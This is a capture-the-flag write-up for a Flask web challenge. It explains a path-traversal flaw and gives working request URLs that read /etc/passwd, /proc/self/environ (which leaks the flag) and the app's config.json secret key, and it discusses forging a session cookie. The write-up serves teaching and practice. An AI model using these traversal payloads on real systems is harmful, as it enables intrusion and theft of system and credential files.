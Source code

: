 # kd-website

Proposed difficulty: `Something`

9 solves

```text
"Jeg synes du skal holde dig til crypto challenges" - bootcamp deltager 2023
```

Attachments:

```text
Archive:  challenge.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2024-01-10 16:09   app/
       59  2024-01-03 10:14   app/flag.txt
        0  2024-01-10 16:09   app/posts/
      159  2024-01-03 10:14   app/posts/cryptography.txt
      608  2024-01-03 10:14   app/posts/sunglasses.txt
      990  2024-01-03 10:14   app/posts/index.txt
      657  2024-01-03 10:14   app/posts/pokedex.txt
        8  2024-01-03 10:14   app/config.json
     1248  2024-01-08 23:22   app/main.py
      163  2024-01-03 10:14   app/page.html
      100  2024-01-03 10:14   docker-compose.yml
      188  2024-01-03 10:14   Dockerfile
       30  2024-01-03 10:14   requirements.txt
---------                     -------
     4210                     13 files
```

# Solution

## Environment

Let's start by looking at the `Dockerfile`:

```dockerfile
FROM python:3.10

WORKDIR /app/website

COPY requirements.txt .
RUN pip install -r requirements.txt

COPY ./app/ ./

CMD ["gunicorn", "--workers", "1", "--bind", "0.0.0.0:80", "main:app"]
```

The Dockerfile sets up a simple Python environment, installs the requirements, and then copies the contents of the app folder, as the workdir, located in `/app/website`.

## Arbitrary File Read (almost)

Here are the contents of `main.py`:

```py
from flask import Flask, request, Response, render_template_string, session
import json, os

app = Flask(__name__)

# Util stuff
def readfile(path):
    return open(path, "r").read()

def get_query(request):
    query = {}
    query.update(request.args)
    query.update(request.form)
    return query

# Load data
try:
    FLAG = readfile("flag.txt")
except:
    FLAG = "DDC{LOCALFLAG}"
try:
    app.config["SECRET_KEY"] = json.loads(readfile("config.json"))["SECRET_KEY"]
except:
    app.config["SECRET_KEY"] = os.urandom(32).hex()

# Please no leak my flag
def is_flag(path,flag):
    # avoid shenanigans
    return os.path.exists(os.path.abspath(path)) and readfile(path) == flag


@app.route('/', methods=['GET', 'POST'])
def index():
    if 'account_type' in session:
        privilige = session["account_type"]
    else:
        session["account_type"] = "USER"
        privilige = "USER"


    requested = get_query(request).get('post', 'index.txt')
    path = os.path.join("posts", requested)

    if not privilige == "ADMIN":
        if is_flag(path,FLAG):
            return "ERROR: that's not one of my posts, stop that!"
    
    text = readfile(path)
    
    return render_template_string(readfile('page.html'), path=path, text=text)
```

We can see that there is only one endpoint, which takes our user session into account. We are set to privilege level `USER` by default, but we would like to be able to read the flag. But that requires us to be privilege level `ADMIN`.

An interesting sidenote is that we can read any file on the system as the `post` get parameter is not secured against path traversal. We can therefore read arbitrary files such as `/etc/password` by going to `/?post=../../../etc/passwd`.

There are two ways to solve this challenge that I found.

## Solution 1 (Unintended maybe?)

As we can read arbitrary files, as long as it is not the flag. We can take a peek into the `/proc` filesystem. On linux systems, the file `/proc/self/environ` is a text file with all the environment variables of the current process, separated by null bytes.

For some reason the flag is in the environment variables, allowing us to just read this file:

`http://kdwebsite.hkn/?post=../../../proc/self/environ`

Response:

```text
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
HOSTNAME=f00be09dde3a
DDC{oopsy-woopsy-my-config-goofy}=HKN{9q-oXE-PP1sM}
LANG=C.UTF-8
GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D
PYTHON_VERSION=3.10.13
PYTHON_PIP_VERSION=23.0.1
PYTHON_SETUPTOOLS_VERSION=65.5.1
PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/4cfa4081d27285bda1220a62a5ebf5b4bd749cdb/public/get-pip.py
PYTHON_GET_PIP_SHA256=9cc01665956d22b3bf057ae8287b035827bfd895da235bcea200ab3b811790b6
HOME=/root
```

Profit?

## Solution 2 (Intended maybe?)

The website fails to take into consideration the file containing the flask secret key.

We can just dump `config.json`, and get the following output:

`http://kdwebsite.hkn/?post=../config.json`

```js
// SECRET KEY for some session data or something? I'm not really sure how configs work. 
// If i just put some random hex string like this it should be fine right?
SECRET_KEY = "99a147c8b967fcc82fe59a7864bec829f2cbc81c50494120f506bab843780558"
```

We could use this to craft our own flask session cookie.

The problem is that this is not JSON data, so I'm pretty sure the app falls back to a completely random secret key.

Not sure if I'm missing something, but I'm pretty sure this challenge is impossible to solve in this way.

# Flag

`DDC{oopsy-woopsy-my-config-goofy}`
